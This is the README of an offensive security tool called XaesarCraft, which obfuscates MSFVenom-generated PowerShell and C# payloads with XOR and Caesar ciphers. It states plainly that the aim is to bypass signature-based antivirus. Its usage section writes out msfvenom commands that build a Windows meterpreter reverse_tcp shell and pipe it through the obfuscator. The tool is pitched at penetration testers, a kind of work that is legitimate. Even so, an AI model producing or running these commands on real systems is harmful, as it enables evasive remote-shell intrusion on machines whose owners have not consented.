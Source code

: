 # XaesarCraft

XaesarCraft is a powerful security tool that integrates XOR encryption and Caesar cipher capabilities, offering users a unique opportunity to manipulate and obscure payloads for PowerShell (PS1) and C# scripts generated through MSFVenom.

## Key Features:

1. **XOR Encryption**: XaesarCraft enables users to employ XOR encryption to obfuscate payloads. This is particularly useful for bypassing signature-based antivirus systems.

2. **Caesar Cipher**: Add an additional layer of encryption by applying the Caesar cipher to your payloads.

3. **Integration with MSFVenom**: Generate payloads using MSFVenom directly from within XaesarCraft, and then apply XOR and Caesar ciphers for encryption.

4. **Customization of Keys**: Specify your own keys for XOR encryption and select a shift for the Caesar cipher, creating unique and complex combinations.

## Example of usage:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py --mode rot # default ROT13
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py --m rot --n 0x13
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f ps1 | python3 XaesarCraft.py # default XOR 0xfa
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f csharp | python3 XaesarCraft.py --m xor -n 0x13
```

TBD:

 **Export**: Export encrypted payloads in various formats, including Base64, HEX, and bin.


## Target Audience

Designed for security researchers, penetration testers, and cybersecurity specialists, XaesarCraft offers comprehensive solutions for effectively creating and obscuring payloads, ensuring high levels of anonymity and protection.
